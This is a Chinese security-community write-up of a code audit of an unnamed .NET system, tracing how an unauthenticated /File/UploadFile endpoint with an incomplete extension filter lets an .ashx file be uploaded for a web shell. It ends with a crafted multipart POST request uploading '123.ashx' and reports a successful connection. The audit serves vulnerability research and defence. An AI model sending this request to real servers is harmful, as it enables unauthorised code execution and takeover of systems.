# 某系统代码审计到getshell-先知社区

> **来源**: https://xz.aliyun.com/news/16278  
> **文章ID**: 16278

---

该系统分为前端路由和后端路由  
首先看到鉴权白名单，/file/UploadFile存在

  
看后端逻辑

  
这里可以看到判断IsFileStorageBack的值，通过web.config看

  
可以看到为0，那么就跳过if语句，走新版本文件上传，那么进入CreateFileStorageServ().UploadFile();  
首先看看整体是否过滤，进入CreateFileStorageServ方法





  
但是这里SaveData跟不进去，那么在别的dll中，搜索

  
3个dll中都有  
先打开  
Form.Service.dll搜索StorageFactory，

  
跳入CreateStorage  
  
可以看到storagetype不传入时候默认设置为0，那么进入"0" => new LocalStorage(),  
  
这里进行了文件上传，传入的参数basepath，vguid，filename，basepath和vguid通过Combine方法进行拼接为路径  
方法如下：

  
CheckInvalidPathChars对其中路径进行了检测

  
然后进入StorageHelper.MergePath拼接

  
接下来就是

```
using (FileStream fileStream = new FileStream(text, FileMode.OpenOrCreate, FileAccess.Write))
            {
                inputStream.CopyTo(fileStream);
                num = fileStream.Length;
                fileStream.Close();
            }

```

写文件操作

那么整体看下来，context并没有做过滤



  
获得文件名这里也没有做过滤  
那么整体看下来SaveData方法中没有做过滤，那么回到

  
主方法，发现在SaveData方法之前StorageExtNameFilter\_Calling，

  
跟据关键词定位发现这里的问题

  
可以看到对部分文件扩展名进行了过滤，但是他没过滤ashx后缀  
其他的如下  
  
跟进去看这些并不造成影响，那么就可以上传了，上传请求包如何构造呢，回到最开始的地方



```
protected JObject CloneRequestToJson(out Stream inputStream)
    {
        HttpRequestBase baseRequest = GetBaseRequest();
        JObject jObject = new JObject();
        string[] allKeys = baseRequest.Form.AllKeys;
        foreach (string text in allKeys)
        {
            string defaultValue = baseRequest.Form[text];
            jObject.SetDefultValue(text.ToLower(), defaultValue);
        }

        allKeys = baseRequest.QueryString.AllKeys;
        foreach (string text2 in allKeys)
        {
            string defaultValue2 = baseRequest.QueryString[text2];
            jObject.SetDefultValue(text2.ToLower(), defaultValue2);
        }

        string text3 = "";
        text3 = baseRequest.Url.PathAndQuery;
        jObject["pathandquery"] = (JToken)text3;
        string text4 = baseRequest.Headers.Get("storagetype");
        if (!string.IsNullOrWhiteSpace(text4))
        {
            jObject.SetDefultValue("storagetype", text4);
        }

        string text5 = baseRequest.Headers.Get("contentHeaders");
        if (!string.IsNullOrWhiteSpace(text5))
        {
            byte[] bytes = Convert.FromBase64String(text5);
            text5 = Encoding.UTF8.GetString(bytes);
            JObject jObject2 = JObject.Parse(text5);
            jObject.MergeInto(jObject2);
            jObject.MergeInto<JObject>("contentHeaders", jObject2);
        }

        bool flag = jObject.GetResult("storagetype", "").ToString() != "2";
        inputStream = null;
        if (baseRequest.Files != null && baseRequest.Files.Count > 0)
        {
            for (int j = 0; j < 1; j++)
            {
                HttpPostedFileBase httpPostedFileBase = baseRequest.Files[j];
                jObject["filename"] = (JToken)httpPostedFileBase.FileName;
                jObject["filelength"] = (JToken)(long)httpPostedFileBase.ContentLength;
                jObject["filecontenttype"] = (JToken)httpPostedFileBase.ContentType;
                inputStream = (flag ? httpPostedFileBase.InputStream : baseRequest.InputStream);
                if (!flag)
                {
                    byte[] array = new byte[httpPostedFileBase.InputStream.Length];
                    httpPostedFileBase.InputStream.Read(array, 0, array.Length);
                    jObject["filebuf"] = (JToken)array;
                    httpPostedFileBase.InputStream.Seek(0L, SeekOrigin.Begin);
                }
            }
        }
        else
        {
            inputStream = baseRequest.InputStream;
        }

        jObject.SetDefultValue("contenttype", baseRequest.ContentType);
        jObject.SetDefultValue("httpmethod", baseRequest.HttpMethod);
        jObject.SetDefultValue("vorgid", "0");
        return jObject;
    }

```

可以看到头文件storagetype传入0时候进入LocalStorage(),contentHeaders没有要求填空就行，

  
那么这里flag是true，inputStream = (flag ? httpPostedFileBase.InputStream : baseRequest.InputStream);走的是httpPostedFileBase.InputStream，  
那么构造上传请求包

```
POST /File/UploadFile?a=1 HTTP/1.1
Host: x.x.x.x
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36 SE 2.X MetaSr 1.0
DNT: 1
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQIimhXw3aj8cZ3xg
Content-Length: 379

------WebKitFormBoundaryQIimhXw3aj8cZ3xg
Content-Disposition: form-data; name="basepath"


------WebKitFormBoundaryQIimhXw3aj8cZ3xg
Content-Disposition: form-data; name="vguid"

xxxxxxxxx
------WebKitFormBoundaryQIimhXw3aj8cZ3xg
Content-Disposition: form-data; name="file"; filename="123.ashx"

xxxxxx
------WebKitFormBoundaryQIimhXw3aj8cZ3xg--

```


  
成功连接
